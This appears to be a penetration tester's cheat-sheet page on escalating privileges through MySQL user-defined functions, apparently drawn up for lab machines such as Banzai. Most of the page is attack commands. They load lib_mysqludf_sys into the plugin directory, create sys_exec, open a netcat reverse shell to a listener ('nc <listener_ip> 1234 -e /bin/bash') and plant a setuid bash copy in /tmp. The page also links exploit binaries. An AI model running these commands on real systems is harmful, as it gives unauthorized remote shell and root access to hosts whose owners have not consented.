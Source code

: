 # MySQL User Defined Function

If we find root credentials to an internal mysql server it is game over.&#x20;

Once we log in, we need to locate plugin paths and see if the secure file priv is null so that we can load data into the database.&#x20;

```
show variables like '%plugin%';
```

![](<../../../../../.gitbook/assets/image (77).png>)

Take note of the plugin directory.&#x20;

```
show variables like '%secure_file_priv%';
```

![](<../../../../../.gitbook/assets/image (45).png>)

Make sure that this one is null, otherwise this shit is not vulnerable because we won't be able to load data.&#x20;

Now literally just follow this.

```
# Local method
use mysql;
create table tranilment(line blob);
insert into tranilment values(load_file('/tmp/lib_mysqludf_sys_64.so'));
select * from tranilment into dumpfile '/<plugin_dir>/lib_mysqludf_sys_64.so';
create function sys_exec returns integer soname 'lib_mysqludf_sys_64.so';
select sys_exec('nc <listener_ip> 1234 -e /bin/bash');
```

You should get a reverse shell. If by any reason there is a firewall blocking you from outbound connections ok not an issue.&#x20;

Try this:

```
 select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

Here are some articles to help you out:&#x20;

{% embed url="https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf" %}

{% embed url="https://michmich.eu/Cheatsheets/internal/04-lpe-linux/" %}

{% embed url="https://github.com/rapid7/metasploit-framework/tree/master/data/exploits/mysql" %}
This is the exploit download based on arch&#x20;
{% endembed %}

Sometimes it'll give you an error because there is an issue doing the dumpfile process.&#x20;

{% embed url="https://www.root-me.org/?id_thread=5072&page=forum" %}

This is to troubleshoot it, just literally copy .so file into the plugin directory manually via the command line.&#x20;

{% embed url="https://emarcel.com/mysql-error-when-creating-function/" %}

<details>

<summary>Examples: </summary>

[https://lyethar.gitbook.io/banzai/priv-escalation](https://lyethar.gitbook.io/banzai/priv-escalation) Banzai

</details>
